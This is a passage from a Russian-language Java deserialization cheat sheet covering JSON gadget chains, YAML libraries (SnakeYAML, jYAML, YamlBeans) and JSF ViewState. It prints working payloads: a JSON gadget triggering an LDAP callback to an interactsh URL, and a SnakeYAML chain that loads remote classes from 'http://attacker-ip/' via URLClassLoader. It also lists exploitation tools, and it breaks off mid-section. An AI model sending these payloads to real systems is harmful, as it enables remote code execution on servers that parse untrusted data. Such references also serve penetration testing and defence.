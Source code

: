 ```json
[
  "br.com.anteros.dbcp.AnterosDBCPConfig",
  {
    "healthCheckRegistry": "ldap://{{interactsh-url}}"
  }
]
```

# Десериализация YAML

* [SnakeYAML](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#snakeyaml-yaml)
* [jYAML](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jyaml-yaml)
* [YamlBeans](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#yamlbeans-yaml)

**SnakeYAML**

> SnakeYAML — популярная библиотека на основе Java, используемая для анализа и вывода данных в формате YAML (YAML не является языком разметки).
>> Она предоставляет простой в использовании API для работы с YAML — стандартом сериализации данных, понятным человеку, который обычно используется для файлов конфигурации и обмена данными.

```yaml
!!javax.script.ScriptEngineManager [
!!java.net.URLClassLoader [[
!!java.net.URL ["http://attacker-ip/"]
]]
]
```

# ViewState

> В Java ViewState — это механизм, используемый такими фреймворками, как JavaServer Faces (JSF), для поддержания состояния компонентов пользовательского интерфейса между HTTP-запросами в веб-приложениях.

* Существует две основные реализации:
  * **Oracle Mojarra** (эталонная реализация JSF)
  * **Apache MyFaces**

* **Инструменты**
  * [joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) — JexBoss: инструмент проверки и эксплуатации уязвимостей Jboss (и Java Deserialization Vulnerabilities)
  * [Synacktiv-contrib/inyourface](https://github.com/Synacktiv-contrib/inyourface) — InYourFace — это программное обеспечение для исправления незашифрованных и неподписанных ViewState в JSF.

|Кодировка|Кодировка начинается с|
|------|--------|
|base64 | rO0 |
|base64 + gzip |H4sIAAA|

**Хранилище**

